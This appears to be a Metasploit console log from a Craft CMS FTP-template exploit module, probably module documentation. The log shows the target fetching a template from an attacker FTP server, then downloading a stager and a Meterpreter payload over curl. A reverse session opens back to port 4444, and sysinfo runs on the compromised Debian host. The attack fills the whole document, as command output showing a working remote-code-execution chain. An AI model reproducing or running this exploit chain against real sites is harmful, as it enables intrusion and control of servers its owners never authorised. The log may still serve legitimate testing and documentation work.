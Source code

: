```bash
[*] -> 331 Username ok, send password.
[*] on_client_command_pass
[*] -> 230 Login successful.
[*] on_client_command_type
[*] -> 200 Type set to: Binary.
[*] on_client_command_size
[*] -> 213 154
[*] on_client_command_epsv
[*] -> 502 EPSV command not implemented.
[*] on_client_command_retr
[*] -> 150 Opening data connection for /default/index.twig
[*] -> 226 Transfer complete.
[*] on_client_command_quit
[*] -> 221 Goodbye.
[*] Client 172.26.0.2 requested /LoPlnjEpeOexZNVppn6cAA
[*] Sending payload to 172.26.0.2 (curl/7.88.1)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.26.0.2
[*] Meterpreter session 14 opened (192.168.1.36:4444 -> 172.26.0.2:59546) at 2025-01-10 17:07:39 +0100

msf exploit(linux/http/craftcms_ftp_template) > sessions 14
[*] Starting interaction with 14...
meterpreter > sysinfo
Computer     : 172.26.0.2
OS           : Debian 12.8 (Linux 5.15.0-130-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
[*] Waiting for FTP client connections...
[*] Shutting down FTP service...
[*] Server stopped.
```
